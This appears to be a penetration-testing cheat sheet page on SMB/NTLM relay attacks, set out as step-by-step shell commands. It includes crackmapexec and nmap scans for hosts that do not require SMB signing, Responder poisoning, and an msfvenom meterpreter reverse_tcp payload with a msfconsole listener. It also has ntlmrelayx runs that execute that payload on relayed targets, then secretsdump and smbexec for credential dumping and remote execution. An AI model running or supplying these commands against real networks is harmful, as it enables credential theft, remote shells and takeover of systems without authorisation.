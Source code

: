 # SMB Replay

## SMB Replay&#x20;

* Check if we have a target for SMB relay.&#x20;

{% code overflow="wrap" %}
```bash
# Change the IP range for your target

crackmapexec smb 10.0.0.0/24 --gen-relay-list /tmp/targets.txt
```
{% endcode %}

* Check the SMB signing requirement. You should look for a host with **445 port open and Message signing enabled but not required** or **Message signing is disabled**.

```
nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24
```

<figure><img src="../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

* Start Responder. Ensure you disable **SMB server** and **HTTP server** on conf.&#x20;

{% code overflow="wrap" %}
```bash
# Ensure you configured the /etc/responder/Responder.conf file to disable SMB server and HTTP server. 

sudo responder -I eth0 -PvdDw

# For -e option (execute), you will get a reverse shell.
Kali> msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.208 LPORT=80 -f exe -o rshell.exe
Kali> sudo msfconsole -q -x "use exploit/multi/handler;set PAYLOAD windows/meterpreter/reverse_tcp;set AutoRunScript post/windows/manage/migrate;set LHOST 10.0.0.208 ;set LPORT 80;run -j"
# then, run Responder
sudo responder -I eth0 -PvdDw 
```
{% endcode %}

* Start NTLM relay.&#x20;

{% code overflow="wrap" %}
```bash
ntlmrelayx.py -smb2support -tf attacklist.txt

# -e option
ntlmrelayx.py -smb2support -tf /tmp/targets.txt -e ./rshell.exe --no-http-server
```
{% endcode %}

* Login to a vulnerable target and access to the Kali SMB file share.

```bash
# From Target Windows, connect back to Kali. 
CMD> Copy a.txt \\10.0.0.208\smb 
```

<figure><img src="../../.gitbook/assets/image (141).png" alt=""><figcaption></figcaption></figure>

If you get an Administrator credential (NTLM hash), try the following commands.&#x20;

{% code overflow="wrap" %}
```bash
Kali> proxychains4 -q secretsdump.py FILE01/Administrator:anypassword@10.0.0.59
Kali> proxychains4 -q smbexec.py FILE01/Administrator:anypassord@10.0.0.59
```
{% endcode %}
